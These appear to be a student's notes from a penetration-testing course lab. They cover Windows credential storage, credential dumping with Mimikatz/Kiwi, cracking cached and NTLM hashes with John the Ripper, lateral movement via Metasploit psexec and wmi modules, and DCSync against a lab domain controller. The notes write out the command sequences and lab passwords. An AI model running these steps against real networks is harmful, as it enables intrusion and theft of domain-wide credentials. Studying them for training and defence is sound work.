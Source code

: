**Windows Credentials Refresher**
![[17.2.14.jpg]]
**Security Accounts Manager**: Windows store credentials In **SAM** database
- It is similar to etc/shadow/ in linux 
- This is for Windows
**Local Security Authority Subsystem Service (LSASS)**: Window's stored database

**Local Account**: Passwords are continuously stored in SAM and are always available offline 
**Domain Account**: Primarily use Kerberos for authentication, do not have their credentials stored in SAM
- Domain user logs in to windows, their credentials are cached in the registry 
	- **Registry**: Database in Windows that stores setting for Windows and application 
		- REGISTRY SETTING: 
			- ![[17.3.0.jpg]]
		- LOCATION OF REGISTRY SETTINGS:
			- ![[17.3.1.jpg]]
				- Specific Registry key appear blank, as it is accessible by SYSTEM
				- However, this file shows that it contains data 
					- NOTE: Not viewable as a standard user
					- Must be SYSTEM to access file 
Note: By default in Windows 10, up to 10 network/domain credential are cached at a time 
- View this default value in the local security policy 
- You can change the policy 

**Mimikatz**: Windows-purposed credential dumping tool that is able to decrypt almost all stored credential in Windows
- It is a complex tool
- We will use Metasploit version of Mimikatz called Kiwi
Note: Mimikatz is used all the time, used to decrypt credentials 

____
Instructor Demo: Minikatz 

signing into Tstark by using his credentials and running minikatz on their account 
![[17.3.0.1 1.jpg]]
msfconsole (running metasploit)
use exploit/windows/smb/psexec
set RHOSTS 172.22.117.20`
set SMBUSER tstark`
set SMBPass Password!`
set SMBDomain megacorpone`
set LHOST 172.22.117.100
run

getuid
- Nt Authority\system
	- Meaning we have admin

NOTE: We want to use Minikatz's kiwi to steal credentials that are encrypted (We need admin prvileges to steal credentials and tstark is admin)
- we want more credentials that are admin just in case our user does not have enough data 
	- we want another back door 
	- we can hide from monitoring by mitgraiting to HR or IT users 

![[17.3.0.2.jpg]]
load kiwi (Minikatz)

NOTES: kiwi is for extract credential hashes 

![[17.3.0.3.jpg]]
running the kiwi_cmd lsadump::cahce
- We want to look for mscacheV2 from bbanner and pparker 

![[17.3.0.4.jpg]]
Create a new tab in the terminal and create a file with the hash
nano lsa_hash.txt

Banner:Hash
- username:hash number

john --format=mscache2 lsa_hash.txt

NOTE: We were able to crack bbanner hash 
Mitigation:
- More complex password
- Password rotation 
- More Complex hashing programs

___
**Lateral Movement** (Learn how to expand our access on the network)
NOTE: Rare for pen tester to complete their goal by accessing a single machine 
- Often, they need to move throughout the network, compromising other machines to either obtain the goal or access to achieve the goal 

![[17.3.2.jpg]]- Example; Objective in this penetration test is to gain access to MegaCorpOne's domain controller and steal its top secret file 
___
**Lateral Movement**: Mean moving through the network from one machine to another 
- IE: **PsExec**: Tool that manages Windows machines remotely using powershell
	- For MegaCorpOne, leverage the credentials that we gathered and cracked from the windows 10 machines to move to the domain controller 
- NOTE: Lateral Movement techniques often overlap with initial access techniques, as both tactics typically leverage the execution of code 

Two key difference between lateral movement and initial access exist; 
1. Lateral movement requires already have internal network access, as lateral movement means moving inside the network 
	- Initial access refers only to the initial way that we get access to a machine on the internal network 
2. There's often a greater number of possibilities for code execution when performing lateral movement 
	- Within an internal network, network firewall rules seldom apply and internally networked machine often have greater access to ports to other machines on the network 

![[17.3.3.jpg]]

___
Activity: Lateral Movement
Go back to the first cmd 
back ground 
use exploit/windows/local/wmi
options

![[17.3.0.6.jpg]]
set RHOSTS 172.22.117.10`
set SESSION [ID of the active Meterpreter session running as SYSTEM]
- The SYSTEM was admin which was Tstark (Windows 10 - Tstark)
	- We will use the session 172.22.117.10
	- The session would be 1 
		- The reason why we set the session to 1 is because that is the machine we have access too
set SMBDomain megacorpone`
set SMBUser bbanner`
set SMBPass Winter2021`
set LHOST 172.22.117.100

![[17.3.0.7.jpg]]
Note This will create a new session (2)
- Sysinfo
	- We are login WINDC01
- getuid
	- We are sign into bbanner 
![[17.3.0.8.jpg]]
We are able to privesca by using lateral movement 

Mitigation:
Add ACL to important system
- ACL are Access control list 
	- This will on only allow certain people to sign in 
___
**Credential Access**
Note: Since we now have access to WINDC01 from a SYSTEM Meterpreter shell, we have unfettered access to the *entire domain*
- Two key piece of Active Directory Domain;
	1. ***bbanner account***
		- **Part of the Domain Administrator group in AD**
			- This means that we have the ability to log in to any machine by default, to create and delete accounts, reset passwords, etc 
	2. ***WINDC01***
		- **The Primary domain controller from the domain** 
			- This is the machine that handles network login, access control for network assets, etc. 

![[17.3.4.jpg]]
- Having SYSTEM or Administrator access to a domain controller means that, directly or indirectly, you have access to every single domain user's password hash, which can be exfiltrated and then cracked offline 

![[17.3.5.jpg]]
One network can contain multiple domain controllers 
- Often, there's a *primary* which handles the Kerberos authentication and other services, such as DNS 
- *Secondary Domain* controller often have other services running, such as file shares and VoIP services 
	- However, if secondary DCs are configured with domain services, they can act as backups to the primary DC 

![[17.3.6.jpg]]

![[17.3.7.jpg]]
Ability to replicate data from a domain controller is a reserviced privilege for domain controller computer accounts or domain administrator 
- However, due to changes in how the hashes are actually stored and how the *NTDS.dit* file is read, technique is not applicable to Windows 10+ and Server 2016+ 


**DCSync**
![[17.3.8.jpg]]
**DCSync:** Newer, preferred technique for accessing password hashes on domain controller 
- Involves replicating the data from a domain controller and parsing through it to extract the password hashes for user 

- DCSync requires replication rights, so you must have a domain administrator account or be SYSTEM on a domain controller itself
- DCSync does not have a standalone Metasploit module 
	- We can use Kiwi to perform DCSync 
- Difference between Kiwi and .exe version of Minikatz
	- Kiwi: Must specify a usernname with password hash you want
	- .exe: Mimikatz will return all users' password hashes when performing DCSync 


note: DCSYNC sync with each other which means that users are able to sync with anything that is connect with DYNCsync 

____
Instructor Demo: Credential Access
$ Session 
- We want to go to session 2 (back to metapreter)
	- we know that Bbanner is in metapreter
$ Session -i 2 
- -i: Interact 
	- We should have this because we want to enter -i2
$ shell
- WE want to run as SYSTEM

$ net user 
- We want to see a list of users 

$ exit 
- We want to go back to meterpreter 

$ load kiwi
- Using program to do an credential attack
- 
![[Hashed passwords.jpg]]
$ dcsync_ntlm cdanvers

$ john hash.txt --format=NT -show
![[Cdanvers.jpg]]

___
Activity: Credential Access

____
